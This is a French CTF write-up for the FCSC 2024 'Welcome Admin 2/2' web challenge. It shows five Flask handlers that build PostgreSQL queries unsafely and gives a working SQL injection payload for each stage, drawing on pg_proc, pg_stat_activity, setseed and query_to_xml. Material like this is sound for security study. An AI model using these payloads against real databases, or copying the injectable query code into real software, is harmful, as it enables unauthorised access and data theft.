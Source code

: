 # README - Welcome Admin 2/2 Challenge Solution

## Description du Challenge

Dans un environnement complexe et sécurisé, un défi a été lancé pour tester vos compétences en SQL. Ce challenge, nommé **Welcome Admin 2/2**, fait partie du CTF (Capture The Flag) du FCSC 2024. L'objectif est de passer cinq étapes successives de validation en interagissant avec une application Flask connectée à une base de données PostgreSQL. 

### Objectif
Votre mission est d'exploiter des vulnérabilités SQL Injection pour obtenir le "flag" final. Chaque étape impose une nouvelle difficulté, et le flag ne peut être récupéré qu'en résolvant toutes les étapes dans l'ordre.

---

## Pré-requis

### Fichiers nécessaires
- **docker-compose.yml** : Fichier de configuration Docker.
- **welcome-admin.tar.xz** : Code source de l'application Flask.

### Installation
1. Téléchargez le fichier `docker-compose.yml` :
   ```bash
   curl https://hackropole.fr/challenges/fcsc2024-web-welcome-admin/docker-compose.public.yml -o docker-compose.yml
   ```
2. Placez le fichier dans un répertoire dédié.
3. Lancez le conteneur Docker :
   ```bash
   docker compose up
   ```
4. Accédez à l'application Flask via :
   [http://localhost:8000/](http://localhost:8000/).

⚠️ **Important** : Toute interaction autre que via le port réseau exposé (8000) ne sera pas considérée comme valide.

---

## Solution : Étapes et Payloads
Chaque étape nécessite une injection SQL spécifique. Voici les détails étape par étape :

### Étape 1 : Guest → Admin
#### Code de l'application :
```python
@app.route("/", methods=["GET", "POST"])
@login_for(Rank.GUEST, Rank.ADMIN, "/admin")
def level1(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(f"SELECT '{token}' = '{password}'")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 1:
        return False
    return bool(row[0])
```
#### Analyse
L'objectif est de contourner la validation en faisant en sorte que la requête SQL retourne toujours "true".

#### Payload utilisé :
```sql
' OR 1=1 --
```

---

### Étape 2 : Admin → Super Admin
#### Code de l'application :
```python
@app.route("/admin", methods=["GET", "POST"])
@login_for(Rank.ADMIN, Rank.SUPER_ADMIN, "/super-admin", FIRST_FLAG)
def level2(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```
#### Analyse
La fonction `check_password` est créée dynamiquement avec le token à l'intérieur de son corps. Il est possible d'extraire ce token depuis la table `pg_proc`.

#### Payload utilisé :
```sql
'||(select substring(prosrc, '[0-9a-f]{32}') from pg_proc where proname='check_password'))--
```

---

### Étape 3 : Super Admin → Hyper Admin
#### Code de l'application :
```python
@app.route("/super-admin", methods=["GET", "POST"])
@login_for(Rank.SUPER_ADMIN, Rank.HYPER_ADMIN, "/hyper-admin")
def level3(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```
#### Analyse
Le token est directement accessible dans la requête en cours. Nous pouvons l'extraire depuis la table `pg_stat_activity`.

#### Payload utilisé :
```sql
'|| substring(query,'[0-9a-f]{32}') FROM pg_stat_activity WHERE query LIKE '%query%';
```

---

### Étape 4 : Hyper Admin → Turbo Admin
#### Code de l'application :
```python
@app.route("/hyper-admin", methods=["GET", "POST"])
@login_for(Rank.HYPER_ADMIN, Rank.TURBO_ADMIN, "/turbo-admin")
def level4(cursor: cursor, password: str):
    cursor.execute(f"SELECT md5(random()::text), '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[0] == row[1]
```
#### Analyse
Le token est haché avec `md5(random()::text)`. Nous utilisons `setseed` pour forcer le générateur aléatoire à retourner une valeur contrôlée.

#### Payload utilisé :
```sql
4d359fe4a63dd3d663c742aa88ef514a' FROM pg_stat_activity WHERE ''=(select ''||setseed(0))||'';
```

---

### Étape 5 : Turbo Admin → Flag
#### Code de l'application :
```python
@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()
    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );
        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```
#### Analyse
Le token est inséré dans une table aléatoire avec une colonne aléatoire. En utilisant `query_to_xml`, nous pouvons extraire ces informations dynamiques.

#### Payload utilisé :
```sql
(SELECT 
    substring(substring(
        XMLSERIALIZE(
          DOCUMENT query_to_xml(
            'SELECT * FROM ' ||(
              SELECT string_agg(substring(table_name, 'table_[a-f0-9]{32}'), '-') 
              FROM information_schema.tables 
              WHERE table_name like 'table_%'
            ), 
            true, true, '') as text), 
        '>[a-z0-9]{32}<'), 
2, 32)
)
```

---

## Conclusion
Chaque étape exploite une vulnérabilité spécifique de l'application Flask et de PostgreSQL. Ces attaques illustrent l'importance d'une gestion rigoureuse des requêtes SQL et de la validation des entrées utilisateur. Une fois toutes les étapes validées, le flag final est obtenu.
